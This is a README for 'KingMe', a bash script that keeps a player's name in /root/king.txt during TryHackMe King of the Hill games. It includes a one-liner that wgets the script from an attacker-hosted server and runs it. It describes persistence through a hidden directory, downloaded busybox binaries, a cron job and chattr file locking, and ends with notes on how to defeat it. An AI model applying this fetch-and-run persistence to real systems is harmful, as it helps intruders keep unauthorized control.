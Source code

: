 # KingMe
Bash script that helps you maintain your rightful place as king on any Linux box while playing
King of the Hill on TryHackMe.com

## DISCLAIMER
As far as I know, it is not against the rules of THM KotH to use a script like this.
However, I am not responsible if you get banned because you used this script.
Use at your own risk.

## How to use it
Firstly, you must be root on the KotH VM in order for this script to work.

On your attacker machine in the same directory as KingMe, start an http server to host all the files on port 8080 (Note: The http port used to serve the files must be 8080 as it is hard-coded in this script).
This python one-liner works pretty well for that:
>`python -m http.server 8080`

Next, on the KotH VM, use wget to get the kingme.sh script like so:
>`wget http://<attacker IP>:8080/kingme.sh`

Then, make kingme.sh executable:
>`chmod u+x kingme.sh`

Finally, run kingme.sh and take your rightful place as king!
>`./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir>`
Or run as a backgroud process!
>`./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir> &`

You can also be super 31337 with this one-liner to do everything:
>`wget http://<attacker IP>:8080/kingme.sh && chmod u+x kingme.sh && ./kingme.sh -u <THM Username> -i <attacker IP> -d <secret working dir> &`

(Note: `-u` and `-i` are required but `-d` is optional. If blank, it will default to `/var/kingme`)

## How it works
KingMe sets up a secret working directory, and then downloads several busybox bins to that
working directory. This will allow the script to run properly even if at some point the bins
on the KotH VM are moved or messed with. The script then sets up a cron job to maintain your reign in 
case the user's shell is terminated or the script stops running for some reason. Finally, 
the magic happens. Every second KingMe checks /root/king.txt for your username. If it's not 
there, it puts your username in king.txt. It also locks the file with chattr making it more
difficult to edit by other players. This should maintain a player as king indefinitely, unless
another player figures out what's going on and stops it.

## How to defeat KingMe
Simply finding and removing the secret working directory will break this script since it relies on 
bins located in that directory. Also, removing the crontab entry, and killing any running processes 
should do the trick as well.

## Future Plans
- Add more protections for king.txt
- Add more counter-measures for tricks used by other players
- Create some sort of backup so that the script will continue to run even if our secret working dir and/or processes are found

## Version Notes
- v0.1 
  - Initial release written after some shower thoughts late at night
- v0.2 
  - Added steps to rename the busybox bins and make them executable (don't know how I missed this...)
  - Added wget commands for the bins (just in case)
  - Added some noclobber stuff
  - Updated "Future Plans" section of README.
- v0.3
  - Fixed the cronjob section since it was not working and creating way too many processes
- v1.0 
  - Full release!
  - Added arg parsing for easier use
  - Added counter-measure for mount trick
  - Made the secret working directory dynamic
  - Removed curl commands in favor of wget commands
  - Cleaned up README
